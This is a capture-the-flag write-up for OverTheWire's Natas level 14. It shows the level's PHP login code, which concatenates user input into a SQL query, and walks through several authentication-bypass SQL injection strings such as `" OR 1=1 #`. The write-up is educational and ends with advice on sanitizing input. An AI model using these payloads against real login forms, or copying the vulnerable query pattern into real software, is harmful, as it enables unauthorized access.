




# OverTheWire - Natas - Level 14

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas14` password in the previous challenge, it can be
used to log into http://natas14.natas.labs.overthewire.org:



## Initial Analysis

This is a new type of challenge. It contains a pair of `Username` and `Password`
input boxes and a `Login` button.

There is also a `View sourcecode` link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. Make it up from there!

## Step-by-Step Solution

Clicking the `View sourcecode` link show the source code for the web page. The
passwords are censored, but the PHP code for the page is shown:



Some formatting and comments help to understand what this PHP code is doing:

```php
// Check to see if the "username" input is in the request: in other words, did
// the user click the "Login" button?
if (array_key_exists("username", $_REQUEST)) {
  // Create a connnection to the MySQL database.
  $link = mysqli_connect('localhost', 'natas14', '<censored>');
  mysqli_select_db($link, 'natas14');

  // Set up the SQL query used to check the username and password to see if they
  // are in the database.
  $query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\" and password=\"" . $_REQUEST["password"] . "\"";

  // Some debug functionality to print the query before running it. This could
  // be enabled using the Developer Tools to add a hidden "debug" element to the
  // form data.
  if (array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
  }

  // If there is a record in the database table "users" with the given username
  // and password, print out the natas15 password. Otherwise access is denied.
  if (mysqli_num_rows(mysqli_query($link, $query)) > 0) {
    echo "Successful login! The password for natas15 is <censored><br>";
  } else {
    echo "Access denied!<br>";
  }

  mysqli_close($link);
}
```

While this code looks like it does the correct job, it's a classic example of an
SQL injection attack. The user input of `username` and `password` is not
sanitized, so it can be used to exploit this login process.

For this type of SQL injection, it is very helpful to know what SQL query is
executed:

```php
"SELECT * from users where username=\"" . $_REQUEST["username"] . "\" and password=\"" . $_REQUEST["password"] . "\""
```

Entering the username `somebody` and password `secret`, the SQL executed is:

```sql
SELECT * from users where username="somebody" and password="secret"
```

Note how the username is in double quotation marks - what if the username itself
actually contained double quotes? For username `somebody" #`, the SQL executed
is:

```sql
SELECT * from users where username="somebody" #" and password="secret"
```

The `#` comment marker is used to throw away the remainder of the query. This
SQL will work if there actually is a username of `somebody`, but that might not
be the case. The username can be expanded to include the clause `OR 1=1`, which
always evaluates to true, and makes the entire clause true. So using the
username `somebody" OR 1=1 #`:

```sql
SELECT * from users where username="somebody" OR 1=1 #" and password="secret"
```

would logically be the same as running:

```sql
SELECT * from users
```

Running this in the web page:



Clicking the `Login` button gives:



There it is: the `natas15` password (removed).

## Key Takeaways

- SQL injection is a large class of exploits and this simple login exploit is
  just one example
- User input should always be sanitized before use
- Raw SQL queries with appended user input are a classic sign of potential SQL
  injection vulnerabilities

## Beyond the Challenge

It's always a good idea to think about other solutions. This SQL injection could
also be done with the `password` parameter, such as `" OR 1=1 #`:

```sql
SELECT * from users where username="somebody" and password="" OR 1=1 #"
```

It can also be done without using a comment: `" OR "x"="x`:

```sql
SELECT * from users where username="somebody" and password="" OR "x" = "x"
```
